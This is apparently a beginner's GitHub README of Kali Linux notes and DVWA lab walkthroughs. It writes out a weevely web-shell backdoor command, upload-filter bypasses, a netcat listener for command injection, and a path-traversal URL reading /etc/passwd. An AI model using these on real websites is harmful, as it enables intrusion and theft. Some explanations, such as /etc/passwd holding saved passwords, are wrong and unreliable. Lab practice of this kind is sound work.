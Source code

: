 
# kali linux commands

- prints current working directry, uses to redirect to open a file - `pwd`  
- list all files - `ls`
- list of all files in the directory with details - `ls -la`
- open a folder - `cd`
- previous folder - `..`  
- prints descrption of a function - `man`   
-  Delete a file `rm -rf` 
- used to update like (winget in windows) - `sudo apt-get update` 
- upgrade kali linux - `sudo apt upgrade` 
- update kali linux - `sudo apt update`
- run 2 commands concurently -  `ls;pwd`
- run the 2nd command directly by neglecting the first commands - `ls | pwd `
- 
<h3 align="center"> ... </h3>  

## check IP address


- to check the information of the target website  
```
http://whois.domaintools.com/
```
- to check which techonology is used in target website  
```
http://toolbar.netcraft.com/site_report?url=
```

- which which website have same ipaddress  

>if we can hack into 1 we can hack all the other

```
https://www.robtex.com/ 
```  
- Using bing.com, search for `ip: [target ip]`
- <h3 align="center"> ... </h3> 
## FileUploadVulnerability
- weevely is a tool used for opening the backdoors and to access the website.
```
weevely generate 123456 /root/shell.php
```
- this creates a php file which is used to upload and open backdoors
- after uploading, run the following command
- `weevely (respective url) 123456`
- now from the terminal we can open the backdoor that is  `cd ..` to get back and then we can access as we want.
- burpsuite is used to interpt the website being executed with the help of proxy.

> __low__ - any file can be uploaded i.e., shell.php
>![Screenshot 2024-04-12 223232](https://github.com/stellados53/kali_commands/assets/142677726/dbc0885c-2112-4832-989f-a6c8dba0eb44)
> 
> __medium__ - we rename the file from shell.php to shell.jepg i.e., shell.jpeg and upload it using bruiteforce by changing the filename to php.
>![Screenshot 2024-04-12 224041](https://github.com/stellados53/kali_commands/assets/142677726/9d3a9640-817f-446f-91cc-f09b4c5d2baf)
> 
> __high__ - we change the file type to shell.php.jpeg and upload and then expoit.
> ![Screenshot 2024-04-12 224407](https://github.com/stellados53/kali_commands/assets/142677726/e202b0e8-1ee3-44e0-8f28-a04c6d404255)
- overall output will be..
 ![Screenshot 2024-04-12 224454](https://github.com/stellados53/kali_commands/assets/142677726/5c02d3fb-e53e-4ed3-85c7-477390b703c7)


<h3 align="center"> ... </h3> 

## Code Execution Vulnerability

- open any searchable website (dvwa- command execution)
- run the following command
```
nc -vv -l -p 8080
```
![Screenshot 2024-04-09 232801](https://github.com/stellados53/kali_commands/assets/142677726/7d1cc4d5-5310-4934-84ba-2c44d0124a0e)

> nc   = netcat tool this is used to use and connect the computer to the website.
> 
> -vv  = it is just a verbose mode, which retireve more output.
> 
> -l   = Listen mode, used to create a server that listens for incoming connections.
> 
> -p   = Specifies the source port number.
> 
> 8080 = port number.
- Now you can execute any command of kali linux such as pwd, ls -la.
- the execution will be done.

> __low__ - in searchbox END WITH ";" AND RUN THE COMMAND ACCORDING TO THE WEBSITE OS.MOST IMPORTANT IF THE IP IS 192.168.11.129, SUBTRACT THE LAST NUMBER -1 THAT IS 192.168.11.128.
>
> __medium__ - it cannot run two commands using ";" so we use "|" for the exploit.
>![Screenshot 2024-04-12 223232](https://github.com/stellados53/kali_commands/assets/142677726/d22e5048-15cd-491b-817f-f2a79979e8d3)
>
> __high__ is not even possible


## File Inclusion Vulnerability
- it allows you to read  any file in the same server.
- access files outside www directory.
- generally to get the commands to be executed in the kali linux we use  `cat etc/passwd`, the same we use in the file url to extract all the saved passwds.
```
http://192.168.11.129/dvwa/vulnerabilities/fi/?page=/../../../../../etc/passwd
```
- by using this command we can get the all saved passwords saved in the webserver.
![Screenshot 2024-04-12 222928](https://github.com/stellados53/kali_commands/assets/142677726/615af2ec-4ac3-4ca6-a33b-28a323ed794a)

- Now as reference from the above use the another executable urls.
![Screenshot 2024-04-12 231128](https://github.com/stellados53/kali_commands/assets/142677726/9cc2d6f4-169b-41f9-b5d6-82513acb37b7)
- from above image the first one  `proc/self/environ` we get..
![Screenshot 2024-04-12 231736](https://github.com/stellados53/kali_commands/assets/142677726/ab250e34-700e-49c3-bcb9-500b88edd38c)

